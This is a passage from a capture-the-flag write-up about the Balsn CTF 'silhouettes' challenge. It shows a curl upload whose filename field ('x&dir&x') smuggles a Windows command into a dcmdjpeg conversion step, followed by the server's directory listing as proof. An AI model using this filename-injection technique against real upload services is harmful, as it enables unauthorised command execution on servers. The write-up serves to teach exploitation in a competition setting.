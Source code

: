 ```  
>>> import imageio  
>>> imageio.imread('./dicom_jpeg').shape[:2]  
--version: dcmdjpeg: command not found  
...  
imageio.plugins._dicom.CompressedDicom: The dicom reader can only read files
with uncompressed image data - not '1.2.840.10008.1.2.4.70' (JPEG). You can
try using dcmtk or gdcm to convert the image.  
```

Then I tried to upload it, and it worked! Web service was able to show some  
(width, height), which meant that `dcmdjpeg.exe` is installed on the server  
and exploitable code path is working.

I recalled some `cmd.exe` commands, which I used last time back in the  
Windows XP days, and came up with following:

```  
$ curl -F 'file=@dicom_jpeg;filename=x&dir&x'
'http://silhouettes.balsnctf.com/'  
$dcmtk: dcmdjpeg v3.6.4 2018-11-29 $

dcmdjpeg: Decode JPEG-compressed DICOM file

Host type: AMD64-Windows  
Character encoding: CP1252  
Code page: 437 (OEM) / 1252 (ANSI)

External libraries used:  
- ZLIB, Version 1.2.11  
- IJG, Version 6b  27-Mar-1998 (modified)  
$dcmtk: dcmdjpeg v3.6.4 2018-11-29 $

dcmdjpeg: Decode JPEG-compressed DICOM file  
error: Missing parameter dcmfile-out  
Volume in drive C has no label.  
Volume Serial Number is C604-FB4A

Directory of C:\inetpub\wwwroot

09/25/2019  12:53 PM    <DIR>          .  
09/25/2019  12:53 PM    <DIR>          ..  
09/25/2019  12:57 PM               115 getsize.py  
09/25/2019  02:42 PM             1,602 index.php  
              2 File(s)          1,717 bytes  
              2 Dir(s)  18,761,220,096 bytes free  
```

Surprisingly, it worked even despite the fact I did not checked which
characters  
I'm allowed to use in the file name and which are prohibited.

It seemed that I was a step away from the flag, but... I'm a long time Linux  
user and I have near zero experience with Windows. And I'm talking about  
day-to-day usage, not about pwning =).
